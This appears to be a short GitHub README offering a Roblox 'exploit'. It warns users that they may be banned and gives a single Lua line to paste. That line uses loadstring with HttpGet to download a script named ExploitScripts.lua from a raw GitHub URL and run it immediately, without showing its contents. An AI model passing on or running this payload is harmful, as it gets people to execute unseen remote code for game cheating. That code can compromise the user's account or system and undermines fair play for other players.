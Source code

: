 # RBLX-Tutorial / Exploit
Exploit: Roblox or games can ban you whenever they want. Use it at your own risk, ill not be responsible for any game bans or roblox ban.

Studio Tutorial : Copy yourself in those files
Exploit:
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/KLAE2160/RBLX-Tutorial/main/ExploitScripts.lua"))()
```
